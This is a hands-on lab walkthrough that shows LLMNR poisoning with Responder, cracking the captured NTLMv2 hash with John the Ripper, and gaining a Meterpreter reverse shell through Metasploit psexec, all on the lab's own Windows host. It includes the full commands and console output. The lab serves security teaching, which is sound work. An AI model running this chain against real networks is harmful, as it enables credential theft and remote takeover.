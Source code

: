 

# Responder

In this lab we are going to walk through how quickly an attacker can take advantage of a common misconfiguration to gain access to a system via a weak password.

Specifically, we are looking to take advantage of LLMNR.  

First, we will need to load our terminal and start responder.

Let's get started by opening a Terminal as Administrator

![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Next, let’s become root:

adhd@DESKTOP-I1T2G01:/mnt/c/Users/adhd$ `sudo su -`

Let’s change into the Responder directory:

root@DESKTOP-I1T2G01:~# `cd /opt/Responder/`

And let’s start Responder:

root@DESKTOP-I1T2G01:/opt/Responder# `./Responder.py -I eth0`

![](attachments/Clipboard_2020-06-23-14-22-03.png)

Now, let's go back to your Windows system and open Windows Explorer and put in the string \\\Noooo into the address bar.

![](attachments/Clipboard_2020-06-23-14-22-57.png)

Give it a few moments and you should see some capture data showing up.  Please note there may be an error.  That is OK.


![](attachments/Clipboard_2020-06-23-14-22-23.png)

Next we need to kill Responder with Ctrl + c.  This will return the command prompt. 

Now, we need to change to the logs directory.

root@DESKTOP-I1T2G01:/opt/Responder# `cd logs/`

Once there, we will need to start John The Ripper"

root@DESKTOP-I1T2G01:/opt/Responder/logs# `/opt/JohnTheRipper/run/john --format=netntlmv2 ./HTTP-NTLMv2-172.26.16.1.txt`
Remember!  Your IP will be different!!!!

![](attachments/Clipboard_2020-06-23-14-24-11.png)

You should see the Windows password be cracked very quickly.  

Now, let’s use that password!

First, we will need to run a script that configures your system as though it is on a domain with little to no security between workstations.
Basically, it allows logons over the network.

Use file explorer to navigate to C:\IntroLabs

Then, Right-click on the smb.bat file and run it as Administrator:

![](attachments/SMB_bat.png)

Next, let’s open a new Ubuntu Command Prompt.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we are going to start up and launch Metasploit against the Windows system to get a Meterpreter session.

<pre>
adhd@DESKTOP-I1T2G01:<b>/mnt/c/Users/adhd$ sudo su -</b>
[sudo] password for adhd:
root@DESKTOP-I1T2G01:~#
root@DESKTOP-I1T2G01:~# msfconsole -q
This copy of metasploit-framework is more than two weeks old.
 Consider running 'msfupdate' to update to the latest version.
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf5 exploit(windows/smb/psexec) >
msf5 exploit(windows/smb/psexec) > set RHOSTS 172.18.112.1
RHOSTS => 172.18.112.1
msf5 exploit(windows/smb/psexec) > set SMBUSER adhd
SMBUSER => adhd
msf5 exploit(windows/smb/psexec) > set SMBPASS adhd
SMBPASS => adhd
msf5 exploit(windows/smb/psexec) > exploit

[*] Started reverse TCP handler on 172.18.121.248:4444
[*] 172.18.112.1:445 - Connecting to the server...
[*] 172.18.112.1:445 - Authenticating to 172.18.112.1:445 as user 'adhd'...
[*] 172.18.112.1:445 - Selecting PowerShell target
[*] 172.18.112.1:445 - Executing the payload...
[+] 172.18.112.1:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (176195 bytes) to 172.18.112.1
[*] Meterpreter session 1 opened (172.18.121.248:4444 -> 172.18.112.1:52806) at 2022-10-18 12:39:56 -0600

meterpreter >
</pre>
Now, you can see just how bad LLMNR is!!!!



